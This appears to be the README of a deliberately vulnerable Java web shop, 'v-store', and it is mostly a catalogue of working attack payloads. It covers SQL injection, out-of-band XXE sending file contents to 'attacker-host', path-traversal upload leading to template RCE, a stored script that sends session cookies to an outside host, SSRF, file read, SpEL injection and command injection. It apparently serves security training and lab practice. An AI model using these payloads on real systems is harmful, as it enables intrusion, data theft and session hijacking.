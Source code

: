 # v-store
/Vstore

## Bug API
### 1. GET "/product/findUnsafe"
- Bug: SQLi
- Params: {name}
- Payload:
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: http://localhost:8080/product/findUnsafe?name=' OR 6776=6776#
    
    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: http://localhost:8080/product/findUnsafe?name=a'union+select+user_name,null,null,null+from+user;%23

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://localhost:8080/product/findUnsafe?name=' AND GTID_SUBSET(CONCAT(0x716b6b6a71,(SELECT (ELT(8054=8054,1))),0x716b717871),8054)-- jkbJ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://localhost:8080/product/findUnsafe?name=' AND (SELECT 5823 FROM (SELECT(SLEEP(5)))RyfP)-- FGig
    
### 2. POST "/product/showBillVuln"
- Bug: Blind Out-of-Band XXE
- Params: object User in body request
- Payload: 
+ SSRF 
```
  <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://kayrz7fdlsb6w9gif751ob26rxxtli.burpcollaborator.net"> ]>
    <user>
      <id_user>&xxe;</id_user>
    </user>
  ```
+ OOB

--- DTD file ---
```
<!ENTITY % file SYSTEM "file:///d:/cache.txt">
        <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker-host/%file;'>">
        %eval;
        %exfiltrate;
```
-- payload --
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://DTD-url"> %xxe;]>
<user>
<id_user>1</id_user></user>
```

### 3. POST "/product/buy"
- Bug: Logic
- Params: {num, id}
- Payload: num=-1&id=5

### 4. GET "/infoUserVuln"
- Bug: IDOR
- params: id
- payload: id=4

### 5. POST "/upAVTVuln"
- Bug: upload file avt tùy ý dẫn tới RCE, CSS
- params: image
- Payload: 
```
   POST /upAVT HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsWyqYFoOyp4thoH
Cookie: JSESSIONID=69B4BBFF8707651A8E0F0D2D8E83DF3D
Connection: close

----WebKitFormBoundaryCsWyqYFoOyp4thoH
Content-Disposition: form-data; name="image"; filename="../../templates/home.html"
Content-Type: image/svg+xml

<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>VStore</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Test PoC </h1>
</body>
</html>

------WebKitFormBoundaryCsWyqYFoOyp4thoH--
```
- Payload RCE: 
+ Upfile:
```
   POST /upAVT HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsWyqYFoOyp4thoH
Cookie: JSESSIONID=69B4BBFF8707651A8E0F0D2D8E83DF3D
Connection: close

----WebKitFormBoundaryCsWyqYFoOyp4thoH
Content-Disposition: form-data; name="image"; filename="../../templates/home.html"
Content-Type: image/svg+xml

<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>VStore</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Test PoC RCE</h1>
<p th:text="${T(java.lang.Runtime).getRuntime().exec('calc')}"/>
</body>
</html>

------WebKitFormBoundaryCsWyqYFoOyp4thoH--
```
- Payload CSS:
```
POST /upAVTVuln HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCsWyqYFoOyp4thoH
Cookie: JSESSIONID=69B4BBFF8707651A8E0F0D2D8E83DF3D
Connection: close

------WebKitFormBoundaryCsWyqYFoOyp4thoH
Content-Disposition: form-data; name="image"; filename="css.html"
Content-Type: image/svg+xml

<!DOCTYPE HTML>
<html xmlns:th="http://www.thymeleaf.org">
<head>
    <title>VStore</title>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
</head>
<body>
<h1>Test PoC CSS</h1>
<script>
            var cookie = document.cookie;
            let xhr = new XMLHttpRequest();
            let url = "http://sonnguy3n.info:8888/?a=";					
            xhr.open("GET", url+cookie, true);						            
            xhr.send();
</script>
</body>
</html>

------WebKitFormBoundaryCsWyqYFoOyp4thoH--
```
+ Link CSS: GET "/getImage?name=css.html"


### 6. POST "/upAVTUrlVuln"
- Bug: SSRF
- Params: url
- Payload: 

"http://host.com/pic.png"

"file:c:/C:/Windows/system.ini"

### 7. GET "/getImage"
- Bug: get file tùy ý
- Params: name
- payload: "../../templates/home.html"
   
### 8. GET "/home" or GET "/"
- Bug: Template Injection
- Params: msg
- Payload:
```
T(org.apache.commons.io.IOUtils).toString(
    T(java.lang.Runtime).getRuntime().exec('powershell ls').getInputStream(),
    T(java.nio.charset.StandardCharsets).UTF_8.name()
    )
```

### 9 POST "/admin/checkAVTVuln"
- Bug: Commant injection
- Params: name
- Payload: name= ss')){echo 1;}else{ls;};if(('1
